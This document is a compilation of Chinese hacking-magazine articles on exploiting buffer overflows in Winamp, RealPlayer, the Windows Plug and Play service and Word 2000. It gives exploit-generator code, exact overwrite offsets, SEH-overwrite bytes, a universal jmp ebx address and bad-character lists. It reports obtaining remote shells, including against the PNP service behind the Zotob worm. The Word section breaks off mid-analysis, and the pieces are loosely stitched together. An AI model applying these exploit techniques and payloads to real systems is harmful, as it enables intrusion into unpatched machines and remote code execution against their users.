那怎么办呢？在 JMP ESP 利用方法出现之前，尤其是在 Linux 下，堆栈溢出的利用一般是将返回点直接覆盖成 ShellCode 的地址。在 Linux 下，堆栈地址不会含 0x00，而且可以通过环境变量绝对定位 ShellCode 的地址，所以利用起来比较简单。Windows 下一般不能使用这种方法，但在这里，却可以特殊地使用一次。

主程序的堆栈中没有我们输入的数据，但 DLL 中可能有我们输入的数据，而且 DLL 位于的地址是比较高的地方，首位可能会不含 0。那么就可以直接用 ShellCode 的地址定位了。

先搜索一下，在 OllyDbg 中按 Alt+M，弹出内存窗口，选择 in_cdda 的 data 数据段，如图 10 所示。

在弹出的内存数据中，按 Ctrl+B 输入要查找的我们字符串的内容“C:\\1”，结果如下，果然有我们的数据，在 0x10024558 起始的地方，而且该地址不含 0x00，如图 11 所示。

那这里就使用直接覆盖地址的方法，把 `C:\1234567890ab1234.cda` 中的第二个 1234 改成在内存中的地址 `0x1002456b`，然后再跟真正的 ShellCode，如此改动 M3U 文件后再运行 Winamp 测试，果然成功！

各类溢出的利用都有一般的基础方法，但由于实现、环境的不同，也总有特例。连很规范的堆栈溢出利用都有特殊的时候，其他诸如堆溢出、字符串溢出更是需要具体漏洞具体分析，才能解决问题。

```cpp
附 Gen.cpp：
#include <stdio.h>
#include <windows.h>
#define HEADER "#EXTM3U\n"

char shellcode[] =
"C:\\1234567890ab1234.cda";

int main(int argc, char* argv[])
{
    FILE *fp;
    char *sc = (char *)malloc(sizeof(shellcode) + 1);
    if (sc == NULL) {
        printf("malloc error\n");
        return -1;
    }
    memset(sc, '\0', sizeof(sc));
    memcpy(sc, shellcode, sizeof(shellcode));
    fp = fopen("test.m3u", "w+");
    if (!fp) {
        printf("error opening file.\n");
        return -1;
    }
    fwrite(HEADER, 1, strlen(HEADER), fp);
    fwrite(sc, 1, strlen(sc), fp);
    fclose(fp);
    return 0;
}


```

【本文涉及的代码（程序），请见随书光盘】

**WTF：** RealNetworks 公司开发的 RealPlayer 是现在使用比较广泛的媒体播放工具之一……而漏洞，也接踵而来！

## RealPlayer：溢出分析 + 利用

文／图 dangguai27
最近几年，RealPlayer 在流行的同时也不断爆出安全漏洞。今年 3、4 月又传出了两个新的缓冲区溢出漏洞……下面，大家就来看看这个漏洞的分析和利用过程，分析的中间也出现了一些意想不到的问题，一起来解决它。

攻击者利用以获取系统权限。公告上给出的信息看起来比较多，复制字符串的函数（strcpy）、给定缓冲区大小（256）以及溢出类型……既然是在处理 .smil 文件的时候发生的溢出，按照一般步骤，就先来认识一下 SMIL。

#### 漏洞起因

这个漏洞的公告和描述如图 1 所示。
图1

公告的意思是说 RealPlayer 在调用 strcpy() 函数复制 .smil 文件的某些属性字段时，没有进行字符串长度检测，从而存在堆栈溢出漏洞，可能被远程利用。

SMIL（同步多媒体集成语言）可看成 XML 的一个自定义标记扩展……我们可以自己将各种音频、视频、文字和图片等不同格式的文件按任意方式组合成 SMIL 格式的文件，然后通过媒体播放出来。一个完整的 SMIL 文件格式如下：

```xml
<smil>
<head>
<meta name="[copyright]" content="[Your Name]" />
<layout>
<!-- layout 标记 -->
</layout>
</head>
<body>
<!-- 媒体标记 -->
<text src="aa.txt" region="size" system_screen_size="" screen-size属性" />

</body>
</smil>
```

针对这个漏洞，溢出就是在拷贝文件 `screen-size` 属性时发生的。接下来，就应该轮到利用 SoftICE 定位确定问题代码了，但是这个过程中却遇到了一系列的问题，差点迫使我放弃。

#### 漏洞分析困难重重

在本文中，我所实验的机器是 Windows 2000，各 SP 都试过没问题。打开 SoftICE，然后按 Ctrl+D 或 F5 回到 Windows，运行 RealPlayer 10，再呼出 SoftICE，输入命令：

```text
addr realplay
bpx strcpy
```

回车后进入 RealPlay 的进程空间，再输入命令。回车后就在函数 strcpy() 处设置断点，如果进程中调用 strcpy() 函数进行字符串复制的话，SoftICE 就会弹出来。回到 Windows 下，构造一个 SMIL 文件，其中 Screen-size 属性的填充为 2000 个字节的 NOP，即

```text
system_screen_size=NNNNN......NNNNNN
|------2000字节------|


```

文件其他信息可以参见光盘中的源代码，文件存为 vuln.smil。

OK，现在从 RealPlayer 的“文件”->“打开”->“浏览”打开 vuln.smil，Why？并没有弹出 SoftICE，但是 RealPlayer 却发生异常退出了。这是什么原因呢？难道复制字符串的函数不是公告中给出的 strcpy()？

带着疑问，我打开了反汇编工具 W32Dasm，想看看究竟。运行 W32Dasm89 后，在“Disassembler”->“Openfile to Disassemble”中打开 RealPlayer.exe，然后打开“Functions”->“Imports”，如图 2 所示。
找了半天，里面的确没有 strcpy，反倒有很多字符串复制函数，如 strncpy、sprintf、vsprintf、wcscat、wcscpy、wsprintfA 等，莫非是调用它们其中的一个么？没办法，只好一个一个尝试了。由于它们大多是 pncrt.dll 中的函数，所以我在 SoftICE 的 winice.dat 文件中添加了一个启动项 `EXP=\SystemRoot\system32\pncrt.dll`，在启动 SoftICE 时会加载该 DLL。结果，按照前面的实验方式，strncpy、sprintf、vsprintf 没有弹出，wcscpy、wcscat 虽然弹出了 SoftICE，但是都是在打开文件之前就弹出了，给出的信息如下：

```text
ntoskrnl!wcscpy
0008:804624D6  MOV ECX, [ESP+08]

ntoskrnl!wcscat
0008:804624AC  MOV EAX, [ESP+04]


```

而在打开文件 SMIL 之后就不再弹出 SoftICE，也不符合要求。最后剩下的 wsprintfA 看来是最有可能的了。但是 wsprintfA 从设置断点的时候开始，就不断弹出 SoftICE，小心翼翼地往下跟啊跟，边按 F12 边观察 ESP、EBP 等寄存器值的变化。跟到最后，经过很多代码，到了 User32!DispatchMessage() 处，SoftICE 自动退出后回到了 Windows 下，RealPlayer 继续运行，最终还是发生异常关闭。唉，平时百试不爽的常规分析方法对于这个漏洞居然行不通？郁闷啊！难道真的只有放弃对该漏洞的利用，任由它在那里。

#### 直接覆盖 SEH

近乎绝望之际，我想起了一年前研究怎样将覆盖 EIP 的溢出利用方式转换为覆盖 SEH 方式的情景。当时的情况是手上有一些堆栈溢出漏洞，如 RPC、SQL、LSA 等系统服务漏洞，只能通过覆盖函数返回地址为 JMP ESP 的地址来进行利用。由于种种原因，需要将攻击程序改写为通用的版本。那个时候还没有发现通用的 jmp esp 地址 0x7FFA4512，却有通用的 jmp ebx 的地址 0x7FFA4A1B 和等效于 jmp ebx 的 pop pop ret 的地址 0x7FFA1571，因为异常发生的时候，ebx 刚好指向当前线程相关的异常处理注册结构 ERR，ERR 结构位置及内容如图 3 所示。
其实整个操作系统的异常处理指针都是存放在一个链式数据结构中的，每个线程的 ERR 是其中的一个结点。另一方面，在一个线程中，如果具有 Try、Exception 等异常处理代码，其 ERR 地址是保存在 fs:[0] 中的。也就是说，如果能够准确定位线程 ERR 地址的话，问题将很可能得到解决。一年前，我是先查找 ERR 地址，再根据 ERR 地址减去堆栈中 EIP(ret) 保存位置，得到 ret 和 ERR 之间的距离，然后全部填充 NOP。到 ERR 位置对应 8 字节的 ShellCode 填为“\xeb\x06\xeb\x04”和 0x7ffa4a1b（或 0x7ffa1571），这样做使我将很多漏洞利用代码成功地改写为通用版本，直到后来 0x7ffa4512 出现，才认识到我以前做的都是徒劳。呵呵，不过也当作锻炼能力吧。

回到这个 RealPlayer 漏洞，在不能确定 EIP 保存地址的情况下，我们可否直接利用 SEH 编写攻击代码呢？答案几乎是肯定的，因为作为一个比较完善和流行的媒体播放工具，RealPlayer 在各个线程应该都有相关的异常处理代码和相应的 ERR。对此，可以进行验证，对于 screen-size 属性部分：

```c
char header[] = ...;
char end[] = ...;
char system_screen_size[2000];
FILE *fvuln;
fvuln = fopen("vuln.smil", "w");
memset(system_screen_size, 0x90, sizeof(system_screen_size));
fprintf(fvuln, "%s%s\"/>\n%s", pre, system_screen_size, end);
fclose(fvuln);
```

编译、执行文件，生成 vuln.smil，运行 realplay，Ctrl+D 呼出 SoftICE，输入“addr realplay”进入 realplay 空间，再输入“bpx 90909090”，然后回到 Windows。最后从“文件”->“打开”->“浏览”打开 vuln.smil，这时弹出 SoftICE，内容如下：

| 地址 | 值 |
|---|---|
| 001B:9090908E | FFFF INVALID |
| 001B:90909090 | FFFF INVALID |
| 001B:90909092 | FFFF INVALID |

我们更关心的是 FS:0 和 EBX，查看寄存器 EBX = 0012f660，输入命令“D FS:0”，数据区显示的 4 字节是：

6C EE 12 00

这时候仍然在 RealPlay 进程空间中，因此 4 字节显然是一个 ERR 结构的地址。但是不是处理 Screen-size 属性部分的 ERR 地址呢？不是！因为这个时候异常已经发生，此时的 ERR 已经跳到异常处理链的下级结构去了。为了消除疑问，输入命令“d cs:0012ee6c”，数据区显示的 8 字节是：

| 60 F6 12 00 | AE 6D F9 77 |
|---|---|
| 上级 ERR 地址 | 当前异常处理代码地址 |

0x0012f660 正好是当前 EBX 的值，一切都顺利了。

好了，整理一下思路。当上面的 screen-size 属性部分超长时，异常发生，而相应的 ERR 结构的地址就在 EBX 指向的地方 0x0012f660，如果找到填写 NOP 数组在地址空间中的首地址，问题就解决了。顺着 0x0012f660 往上找，找到第一个 NOP(90) 的地址为 0x0012f20c，两者相减 0x0012f660 - 0x0012f20c = 0x454，即相差 1108 字节，于是在刚才的代码中加入：

```c
memcpy(system_screen_size + 1108,
       "\xeb\x06\xeb\x04", 4);
// 跳过异常处理代码地址的四个字节去执行 shellcode

memcpy(system_screen_size + 1112,
       "\x1b\x4a\xfa\x7f", 4);
// 通用的 jmp ebx 地址

memcpy(system_screen_size + 1116, shellcode, strlen(shellcode)); // 开端口13579


```

一切准备 OK 后，编译、执行，生成新的 vuln.smil，直接双击 vuln.smil，然后在命令行下输入 telnet 127.0.0.1 13579，回车，果然获取了我们熟悉的 DOS 窗口！

关于 ShellCode，我再说两句。ShellCode 的编写已经有很多资料介绍了，这里不再啰嗦，只是需要大家注意的是很多时候具体的某个漏洞可能对 ShellCode 的编写有一些限制，例如以前的 IIS、RPC 漏洞就是这样。这个漏洞并不例外，我们编写的 ShellCode 中不能包含 0x00、0x90、0x5c、0x58、0x3d、0xa0、0x20、0x0a 等特殊字符。如果大家要自己编写 ShellCode 来对此漏洞进行利用，在打开 vuln.smil 后弹出“RealPlayer 无法打开此剪辑”的错误提示框，则应该好好检查一下 ShellCode 中是否包含了上述字符，然后根据情况对 ShellCode 重新编码。这可能需要反复调试，直到测试成功。

#### 小结

本文我主要介绍了在暂时无法精确定位问题代码的情况下，如何利用覆盖 SEH 来编写有效的攻击代码，对 RealPlayer Smil 溢出漏洞进行利用。一方面，这种方法具有一定的通用性，再利用其他一些漏洞时也可以采用；另一方面，这又是无奈之举，因为从研究漏洞本身的角度出发，还是应该将漏洞方方面面都研究清楚，这样提高技术才快一些。因此我只是将它作为首次分析，接下来我会对该漏洞进行进一步分析。同时，由于知识面的问题，可能有的东西我并没有想到，如果有已经分析出溢出点或者有更好建议的朋友，还请多多指教。

> 【本文涉及的代码（程序），请见随书光盘】

## Realplay.smil 文件溢出漏洞分析
文／图 曹军 / dangguai27

在 5 期《黑客防线》杂志的《RealPlayer 溢出分析 + 利用》一文中，我在简单分析了漏洞的原理后，提到了直接覆盖漏洞程序中线程相关的异常处理指针（SEH）来编写攻击代码，实践证明这种方法本身是可行的，尤其在无法定位函数返回地址 EIP 在堆栈中位置的情况下建议采用。但是当时的分析有一些东西并没有给出合理的说法，例如为何跟踪不了公告中给出的 strcpy() 函数，SoftICE 拦截不了非法的返回地址（如 EIP = 0x90909090），溢出点究竟是怎样定位的等一些问题。既然分析问题，就应该尽量分析清晰，这样才能扎扎实实地进步。于是这两天工作之余有时间我就继续跟踪，解决了这些问题。结合上次的分析，下面和大家一起来看看这个漏洞究竟是怎样触发的，也算是对上次分析的一个补充了。

#### 工具准备

安装中文版 RealPlay10（中国人嘛，感觉还是自己的语言看着舒服点），内部版本为 6.0.12.857，如图 1 所示。当然，也可以安装公告中的其他有漏洞的版本。安装 SoftICE，我个人觉得这个在调试溢出漏洞中的作用最大。
图1

查看 RealPlay10 相关输入函数，反汇编工具 W32Dasm 简单、实用。最后，按照 .smil 文件格式构造具有溢出漏洞的 smil 文件 test.smil，注意设置其 screen-size 属性为 1700 字节的 0x90。这个在上次分析中有比较详细的介绍，大家可以对照。OK，工具准备好之后，下面进行调试，步骤我写得比较详细，大家基本上一步步跟着走就可以了。

#### 调试方法及过程

打开 SoftICE，如果字体很小，则可通过 set font 2 命令将显示的字体放大。Ctrl+D 回到 Windows 下，打开 SoftICE 的 symbol loader。看看 loaded symbols 这一项中是否包含了 ntdll.dll，如果没有，则通过 File->Load Exports 在 system32 下加载 ntdll.dll，如图 2 所示。
图2

Ctrl+D 进入 SoftICE 空间，设置断点：bpx ntdll!KiUserExceptionDispatcher。该命令的功能是程序运行到 ntdll.dll 中的 KiUserExceptionDispatcher 函数就停下来。KiUserExceptionDispatcher 函数是 Windows 异常处理中很重要的一个函数，它负责派发用户空间所有异常的处理函数地址到异常链中，因此每当用户层发生异常的时候就会调用这个函数（嘿嘿，这里有很多东西都是跟 ISNO 学的）。

回到 Windows 下，打开前面安装的 RealPlayer10，从文件->打开中选中并打开刚才生成的 test.smil，很快 SoftICE 弹出，并停留在 KiUserExceptionDispatcher 函数开始处。这时用命令 `d(*(esp+4)+b8)` 查看异常发生时的 EIP。有点云里雾里？其实很简单。

> KiUserExceptionDispatcher 函数参数指向一个保存异常发生时寄存器的结构，该结构从偏移 0x8c 的位置开始保存各寄存器的值。

- 0x8c GS
- 0x90 FS
- 0x94 ES
- 0x98 DS
- 0x9c EDI
- 0xa0 ESI
- 0xa4 EBX
- 0xa8 EDX
- 0xac ECX
- 0xb0 EAX
- 0xb4 EBP
- 0xb8 EIP
- 0xbc CS
- 0xc0 EFlags
- 0xc4 ESP
- 0xc8 SS

有了这个基础知识，我们就可以继续了。上面得到的 EIP 为 `0xB9F28560`，这可能是函数的返回地址，也可能是其他指令的地址，有待进一步分析。

执行命令 `d fs:0` 查看当前线程相关异常处理函数指针位置位于 `0x0012f660`，这与我上次那篇文章中是一致的。

执行命令 `d(*(esp+4)+b4)`，得到异常发生时 EBP 的地址为 `0x0012f344`，这个地址是堆栈中的地址。

执行命令 `d(*(esp+4)+c4)`，得到异常发生时 ESP 的地址为 `0x0012f200`，执行命令 `d .es:0012f200`，我们可以看到位于该地址不远处，即 `0x0012f20c` 开始的地址就填充了我们的 `90 90 90 90 ......`。

## 分析篇

这时我们理一下头绪，异常发生的时候，ESP 值比填充数据 90 的首地址还低，而该首地址离 EBP 距离为：`L=0x0012f344-0x0012f20c=0x138=312` 字节，也就是说 RealPlay 可能是为存放 screen-size 属性分配了 `0x138` 字节的缓存，如果填充的 90 字节数超过这个值则发生溢出。如果真的是这样的话，则说明异常发生时 EBP 和 ESP 等寄存器的值都还没有发生变化，也就是说可能异常是在函数返回之前就发生了。带着这样一个想法，我们来证明 RealPlay 为存放 screen-size 属性分配了 `0x138` 字节的缓存这样一个事实。

回到 Windows，打开 RealPlay 回到 SoftICE 中，执行命令 `addr Realplay` 后进入 RealPlay 的进程空间，设置断点：`BPX 001b:6085f259`，该地址比异常发生时 EIP 稍低一点，也就是说在发生异常的指令前面一点设置断点，便于跟踪。

```asm
001b:6085f259  LEA EDI, [EBP - 0138]
001b:6085f25f  REPNZ SCASB
......
001b:6085f273  REPZ MOVSD
......
001b:6085f2b9  CMP [EAX + 8C], EBX


```

从上面的语句可以看出，程序的确为存放 screen-size 属性分配了 `0x138` 字节的缓存。当指令执行到 `001b:6085f273 REPZ MOVSD` 时表示数据的拷贝，这里并不是用 strcpy 这样的函数，因此当然跟踪不到了。此外，当指令执行到 `001b:6085f2b9 CMP [EAX + 8C], EBX` 时，`EAX=0x90909090`，当然也会出现内存访问非法，这时就会发生异常，而等不到函数返回了。

这样，这个漏洞的分析过程就告一段落了。至于漏洞的利用，直接参考我 5 期中的那篇文章就可以了。

#### 小结

通过本文，我介绍了 RealServer.smil 漏洞的调试过程，其实针对的不仅仅是这样一个本地溢出漏洞，更重要的还是介绍一种方法。毕竟，攻防是一个很广阔的领域，对于方法的总结才真正有助于大家的提高。最后，希望本文对大家以后调试各种溢出漏洞会有点帮助，也欢迎与我交流。

【本文涉及的代码（程序），请见随书光盘】

## PNP 溢出漏洞分析+利用
文/图 四川大学信息安全研究所 曾军/danggui27

一个月前和朋友聊天，谈到现在网络上蠕虫、病毒是越来越猖狂，前年的“冲击波”、去年的“震荡波”，今年还不知道又出什么呢？话音刚落，一个被命名为 Zotob 的蠕虫病毒已经在 8 月 15 日开始传播。后来的几天，该蠕虫的变种相继产生，对网络造成了一定的影响。Zotob 蠕虫是基于 Windows 2000 以上版本的即插即用（PNP）服务中产生的堆栈溢出漏洞，远程攻击者通过 TCP 445 或 139 端口向该服务提交畸形请求，溢出后可能获取系统权限。大家的防范意识都比较强了，很多用户都及时打了补丁，而一般个人防火墙的默认规则也封堵了 TCP 139 或 445 端口，该漏洞的破坏力已经明显不如以前的“冲击波”了。言归正传，我们还是来分析这个漏洞吧。

- 1）漏洞起因：Windows 2000 版本以上的 PNP 服务存在远程堆栈溢出漏洞；“远程”是因为该服务可以通过 RPC 接口来远程调用。
- 2）影响范围：漏洞只对 Windows 2000 有真正威胁，而攻击 XP 和 Windows 2003 均有一定限制。Windows XP SP0/SP1 需要有效账号登录后才可调用；Windows XP SP2 和 Windows 2003 通常仅管理员组用户可远程调用，其他账号只能本地调用。

#### 漏洞起因及影响范围

漏洞的起因前面已经简单提到了，我们可以参见漏洞公告，如图 1 所示。
图1

从漏洞公告我们可以看出两点。

#### 宏定位分析

这部分工作我认为很重要，因此在本文中讲清楚一些。所谓“宏定位”，就是指应该对我们实现的目标进行预先的分析，调试漏洞是这样，做其他工作也是如此，这一步做好了，我们在后面可以少走弯路。

- 1、对具有溢出漏洞的服务进程归类：
  - 一类是服务自身绑定了端口（TCP 或 UDP），远程机器可通过传输层协议+应用层协议（如 RPC、HTTP）访问服务，IIS/FTP/HTTP 属于此类。
  - 另一类是服务进程自身没有绑定端口，远程访问依赖传输层协议+命名管道（IPC$）+应用层协议，这也是访问 LSASS、WorkStation 等服务时需要先建立 IPC$ 连接的原因。

感染利用 PNP 溢出漏洞的蠕虫后，我们的机器会弹出 system32\services.exe 意外终止关闭提示框，根据以往的经验，我们可以看出该漏洞是存在于 Services 进程中，这一点和 WorkStation 服务一样，因此归为后一类。

- 2. 服务进程接收缓冲区长度

这个问题集中体现在用于接收请求的函数（如 recv、recvfrom 等）第 3 个参数 len 上。如果指定的 len 很小，我们是无法一次性传送功能复杂的很长的 ShellCode 的，这时就必须采用其他传送的方式，例如把 ShellCode 分段传送，这在 10 期一篇溢出文章《编写分段传送的 ShellCode》中有介绍。接收缓冲区长度问题一般在服务进程自身绑定了端口的溢出漏洞中出现，因此 PNP 服务中可以暂不考虑。

- 3. 异常发生的位置

这个问题是指我们向服务程序提交超长的请求后，会覆盖问题函数的返回地址 EIP 等指针。当函数返回的时候，跳转到我们覆盖数据指定的地址的时候可能发生异常；另外一种情况就是在该函数返回之前，由于我们覆盖了局部变量中其他指针，导致对其进行引用的时候发生异常。简而言之，就是 ret 前与 ret 后发生异常的区别。对于 ret 后的异常，我们可能需要通过 KiUserExceptionDispatcher 和监视点的方法来联合定位溢出点，并且漏洞利用的方式有两种：改写 EIP 为 jmp esp 地址或改写 SEH 指针。而对于 ret 前的异常，我们一般通过 KiUserExceptionDispatcher 来定位溢出点就够了，利用的时候也只能改写 SEH 指针。我们预先并不知道 PNP 溢出漏洞属于哪一类，不过等下面进一步调试后就明确了。

- 4. 判断 ret 函数的调用约定

这个问题是最容易被忽略的。如果我们能够采用 jmp esp 的利用方式的话，可能很多人会在覆盖 jmp esp 位置的紧接 4 个字节开始的地方连接 ShellCode，问题就出在这里。

不管是 Windows 系统进程、第 3 方软件，还是我们自己用 VC6、VC7 编写的程序，只要和 C/C++ 相关的函数，一般来说可以分为 __cdecl 和 __stdcall 两种调用约定。采用 __cdecl 的函数在返回时需要调用者恢复实参占用的堆栈，也就是函数只执行返回指令 ret，我们把 ShellCode 接到保存的 EIP 后面是没问题的；而采用 __stdcall 函数返回是执行指令 ret n，自己恢复实参占用的堆栈，我们如果把 ShellCode 接到保存的 EIP 后面的话，开始 n 个字节的代码就执行不到了。这也就是为什么我们在构造一些系统进程溢出漏洞（如 RPC、WorkStation、LSA 等）攻击代码的时候，jmp esp 地址后要有若干保留字节的原因。好了，带着剩下的问题，我们继续。

## PNP 溢出漏洞的分析 + 利用

现在的牛人们编写漏洞代码的速度是越来越快了，蠕虫出来两三天，攻击代码就已经公布出来了。既然有现成的，我们就直接拿过来用了。于是，我把集点上公布的代码拿来整理后编译、执行，结果目标机器还是发生了异常如图 2 所示。
图2

幸好是用 VMWare（+Windows 2000 SP4）作测试，否则用我自己的机器岂不麻烦？很显然，攻击代码存在问题，再看看网上代码中的地址填充。

```c
EvilRPC.SDA[76] = 0x3c;
EvilRPC.SDA[77] = 0x1e;
EvilRPC.SDA[78] = 0x02;
EvilRPC.SDA[79] = 0x75;
```

这个地址不是我们熟悉的地址，需要进一步分析。对这样的漏洞分析，VMWare 和 SoftICE 的组合是再合适不过了，顺便向大家推荐。启动 VMWare 中的 SoftICE，设置断点：

bpx ntdll!KiUserExceptionDispatcher

发生任何异常，SoftICE 都会先在这个函数第一条指令停顿下来。关于 KiUserExceptionDispatcher 函数及其参数的详细介绍，2004 年黑防 10 期 ISNO《我是怎样发现 CCPROXY 溢出漏洞的》一文中有详细介绍，我在 2005 年 8 期对 Realplay 溢出漏洞分析中也有详细的介绍，大家可以参考，这里我只结合本漏洞谈谈。

OK，重新攻击 VMWare 系统，果然弹出了 SoftICE，并停留在函数 KiUserExceptionDispatcher 入口处，如图 3 所示。

输入命令 addr，可以看到的确是 Services 进程空间发生了异常。输入命令 d (*(esp + 4) + b4)，得到异常发生时：EBP = 0x005bf874，EIP = 0x76750199，如图4所示。

在输入命令 `d *(esp + 4) + c4` 时，得到异常发生：ESP = 0x005bf864，如图5所示。

调试到这里，由 EIP = 0x76750199，我们应该可以得出一个结论：该漏洞是典型的 ret 前异常。换句话说，就是在问题函数返回之前就已经发生了异常。按照前面的宏定位分析，网上公布的代码是一定利用了改写 SEH 指针的方式，我们来证明一下。输入命令 `d fs:0`，我们看到当前线程 SEH 结构位于 0x005bf8f8 处，如图6所示。

再输入命令 `d ss:005bf8f8`，看到了当前线程 SEH 结构的 8 字节，如图7所示。呵呵，当前线程异常处理函数指针是 0x75021e3e，也就是前面看到的填充的地址，证明了我前面的假设。我们将该地址改为 Windows 2000 下通用的 `jmp ebx` 地址 0x7ffa1571，前面 4 个字节填写为 `eb 06 eb 04`。然后将 VMWare 系统重启，再次测试，如图8所示。

这下目标机器没有重启，VMWare 系统 IP 为 192.168.1.8，在本机输入 `telnet 192.168.1.8 8721`，立即得到了 Shell，修改成功了！如图9所示。

#### 小结

本文中，我简单地和大家一起对 PNP 服务溢出漏洞进行了分析。分析的过程不复杂，只是我想通过这样的分析调试，和大家一起分享我调试这些漏洞的一些经验。本文中涉及的宏定位分析，在以后大家分析其他复杂漏洞的时候同样适用。我修改后的代码细节可以参见光盘中的源代码，如图10所示。在 Windows 2000 + VC6 下编译、测试通过。

```c
// Pnpexploit.c（节选）
#include <windows.h>
#include <winnetwk.h>
#include <rpc.h>
#include <winsock.h>
...
BYTE Data1[0x68] = { ... };
struct DataStruct {
  BYTE SomeString[0x30];
  DWORD RESDataType;
  ...
};
```

> 【本文涉及的代码（程序），请见随书光盘】

## Word溢出漏洞分析与利用

文／图 曹军／dangguai27

众所周知，溢出漏洞从应用形式上可分为远程服务溢出漏洞和客户端（本地）溢出漏洞两类。远程服务溢出漏洞大家很熟悉了；红色代码、冲击波、振荡波等蠕虫都利用了此类漏洞，漏洞的调试和利用有相应的一套方法，前面的文章也有过实例介绍。至于客户端溢出漏洞，这种说法是我暂时从网络上借用来的，IE、OutLook、Firefox、MSN 等存在的漏洞就是例子。扩展一下，Office、Acrobat Reader 等软件存在的漏洞也归于此类型。远程服务溢出漏洞由于多数协议公开，在协议基础上辅以常用的黑盒测试等技术，利用起来相对容易成功。然而，客户端漏洞通常是由解析某种文件格式的时候缺乏数据边界检查而产生的，而且很多文件格式（如 doc、pdf 等）厂商都未公开，利用成功的难度明显大一些。

前段时间由于工作要求，我需要对 Word 2000 解析 doc 文件格式时存在的溢出漏洞进行分析与利用。从网上找了找，一共有 MS03-035、MS03-050、MS05-023、MS05-035 这 4 个漏洞公告，影响的都是 Word 2000（据说 Word 2002 可能也受影响）。其中，MS03-050 漏洞尽管是 2003 年底发现的漏洞，但是到了 2005 年 7 月底才爆发了针对该漏洞的“万珍”蠕虫，给网络造成了不小的损害。况且现在使用 Word 2000 的用户仍然很多，因此觉得这个漏洞目前最有利用的必要。在分析的过程中，我遇到了很多困难，也走了不少弯路，不过经过 1 个多月时间后最终还是比较完美地解决了。

在增长信心与提高能力的同时，我当然不会把好东西独享。下面，我就和大家一起来回顾对该漏洞艰苦的调试之旅。希望朋友们看了之后能有所收获。文中讲的东西更多是基于漏洞调试技术本身及利用，至于如何复杂地利用基本都是与木马技术相结合的，由于工作上的保密关系就不多谈了，大家可以自由发挥。

## 寻求现成Exploit——无功而返

首先还是看看漏洞公告吧，如图1所示。

根据公告，漏洞原因大家应该大致了解了，Word 在解析 doc 文件的时候，未对宏的名称进行长度检测，导致了缓冲区溢出。除此以外，公告没有其他任何信息，甚至连它是堆栈还是堆溢出漏洞我们也不确定。对于分析这样的漏洞，我一向采取先解决问题（找 Exploit），有空再深入研究的方式。二话不说，打开 Google，输入漏洞关键字，如图2所示。

在搜索结果中的众多 URL 中一一浏览，发现这些 URL 几乎全是关于漏洞概述的，不要说 Exploit，就连 doc 样本文档都找不到一个。一周时间过去了，完全没什么进展。但有一点是肯定的，绝对不能随意放弃。靠别人不如靠自己，一条路走不通就换另一条，我决定自己分析这个漏洞。

## 分析篇《黑客防线》2009 缓冲区溢出攻击与防范专辑

既然该漏洞是 Word 在解析 doc 文件宏名称的时候发生了溢出，那就从构造超长的宏名称开始。可我连 Word 宏机制都完全不了解，看来还只能从这些基础知识入手。下面的内容都是在 Windows 2000（或 XP SP2）+ Word 2000 这样一个平台上进行的。

## 了解Word宏机制——测试未果

大概从 Word 97 开始，就提供了宏机制。宏是完成一定功能的命令集合，Word 中各菜单、按钮执行的功能（如新建、打开等），实际上都是用宏的形式对多条命令进行了封装。Word 宏是使用 VBA 来编写的，目的是使得用户能在 Word 中编写完成指定功能的代码，从而扩充了 Word 的功能。VBA 具体语法和 VB 一样，我们可以在编写宏的时候调用 Windows API，但有些函数 VB 中没有，宏病毒就是利用宏复制语句来达到感染的目的。宏有两种存储形式，一种是存储在 doc 模板文件中（Normal.dot），而另一种则存储在单个 doc 文件中。

我们还是来看看如何使用宏。打开 Word 2000，创建 doc 文档并保存为 test.doc，然后点击“工具”->“宏”->“宏”（或者按 Alt+F8）调出宏，如图3所示。

我们先来尝试新建一个宏。在“宏名”中输入任意名称，必须以字母开头，这里输入“aaaaaaaa”。在“宏的位置”中选择“test.doc”，然后点击“创建”，调出 VBA 编辑器。这里的代码只调用 API MsgBox 函数作测试，如图4所示。保存以后，运行，弹出了对话框，如图5所示。

当然，这里只是测试，大家还可以通过宏来实现更加复杂的功能。如果要在文件刚打开或保存时执行某功能，则将宏名取为“AutoOpen”或“AutoSave”等；如果宏是由 VBA 编写的破坏性代码，则可称之为“宏病毒”。

接下来谈谈 Word 宏的安全机制，也顺便把我研究这个漏洞的原因解释清楚。宏的安全机制很大程度上是针对“宏病毒”的，Word 2000 通过安全等级来控制宏的执行，安全等级分为无、中、高 3 级（Word 2003 中有极高），分别代表启用任何宏、用户选择是否启用宏以及取消任何宏。现在大多数 Word 2000 默认的安全等级是中（部分新的 Word 版本默认安全级别为高），用户打开带有宏的 doc 文件后，会弹出宏提示框，如图6所示。

如果选择“取消宏”，则 doc 文件中的宏不会执行，而选择“启用宏”则执行。当宏安全级别为高的时候，无论怎么样，宏都不会执行。整理一下，如果 Word 宏安全级别为默认设置的话，宏要么需要用户选择启用，要么被取消。这种宏安全机制是可以理解的，否则宏病毒将会泛滥。

前面也讲过了，我们如果想让 Word 在打开 doc 文档的时候就执行任意代码的话，如果用宏来实现看来是始终逃不脱其安全机制的，而且用户可能选择“取消宏”。因此需要研究一种方法，使得不论在哪种安全级别下，不论是否启用宏，只要 Word 将 doc 文件一打开，我们嵌入的代码就执行。因此出路只有一条，那就是利用溢出漏洞。

在熟悉了宏机制之后，现在回到主题中来，继续分析漏洞。既然是宏名称溢出，那就在建立宏的时候把宏名称写得很长。我把宏名增长到 200 多个字符，但发现这里是作了限制的，超过 255 个字符 VBA 就会报错。但这是 Word 正常的错误处理。为了便于测试，我把 test.doc 中宏名称设置为 176 个字符，如图7所示。

那么，在 Word 打开 doc 文件的时候，究竟是通过哪一处来识别宏名称的呢？可以肯定的是上面 3 处之一，因此现在我们又需要再次判断了。判断的方法很简单，在 UltraEdit 中依次把这 3 处宏名称的第一个字符由“a”改为“b”，保存之后再打开 test.doc，Alt+F8 调用宏，检查宏名称第一个字符是否改为了“b”，如果改变则说明该处就是 Word 解析的宏名称。经过多次测试，发现 Unicode 小写形式的宏名称就是我们要找的目标，如图11所示。

```vb
Sub aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    MsgBox "OK!"
End Sub
```

